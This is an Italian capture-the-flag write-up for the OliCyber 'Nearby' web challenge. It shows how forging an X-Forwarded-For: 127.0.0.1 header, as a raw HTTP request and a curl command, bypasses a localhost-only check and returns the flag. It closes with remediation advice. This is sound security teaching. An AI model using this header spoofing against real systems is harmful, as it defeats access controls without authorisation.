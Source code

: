 **Writeup:  "Nearby"**

**Descrizione della Sfida**  
Il sito web (`nearby.challs.olicyber.it:37005`) limita l'accesso solo agli utenti locali. L'obiettivo è bypassare questa restrizione e recuperare la flag.

---

### **Analisi**
1. **Richiesta Iniziale e Risposta**  
   - Inviando una richiesta GET standard a `/`, otteniamo:  
     ```html
     <h1>Questa pagina è abilitata solo agli utenti locali. Non è accessibile da remoto.</h1>
     <p>Il tuo ip potrebbe essere 10.42.0.94.</p>
     ```
   - Il server identifica l'IP del client come `10.42.0.94` (un IP privato), ma blocca comunque l'accesso. Questo suggerisce che il server applica un controllo più rigoroso, probabilmente verificando se l'IP è `127.0.0.1`.

2. **Ipotesi**  
   Il server probabilmente utilizza gli header HTTP per determinare l'IP del client. Gli header comuni includono:
   - `X-Forwarded-For`: Usato dai proxy per passare l'IP originale del client.
   - Se il server si fida ciecamente di questi header senza validazione, forgiarli potrebbe bypassare la restrizione.

---

### **Sfruttamento**
1. **Forgiare gli Header**  
   Per simulare una richiesta locale, manipoliamo gli header per falsificare un IP loopback (`127.0.0.1`):

   ```http
   GET / HTTP/1.1
   Host: nearby.challs.olicyber.it:37005
   X-Forwarded-For: 127.0.0.1  <!-- IP Falsificato -->
   Cache-Control: max-age=0
   DNT: 1
   Upgrade-Insecure-Requests: 1
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Accept-Encoding: gzip, deflate, br
   Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7,de;q=0.6
   Connection: keep-alive
   ```

2. **Test con `curl`**  
   Eseguiamo la richiesta usando `curl` con l'header falsificato:
   ```bash
   curl -H "X-Forwarded-For: 127.0.0.1" http://nearby.challs.olicyber.it:37005
   ```

3. **Risultato**  
   Il server risponde con la flag, confermando il bypass riuscito:
   ```html
   <html>
     <body>
       <p>Ben fatto! La flag è flag{REDACTED}</p>
     </body>
   </html>
   ```

---

### **Osservazioni Chiave**
- **Errata Configurazione della Fiducia negli Header**: Il server si fida ciecamente dell'header `X-Forwarded-For`, permettendo la falsificazione dell'IP.
- **Consigli per la Sicurezza**:  
  - Validare gli header rispetto a proxy attendibili.
  - Utilizzare `REMOTE_ADDR` (l'IP effettivo della connessione TCP) invece degli header per il controllo degli accessi.
  - Whitelistare gli IP consentiti a livello di rete.

---

**Flag**: `flag{REDACTED}`
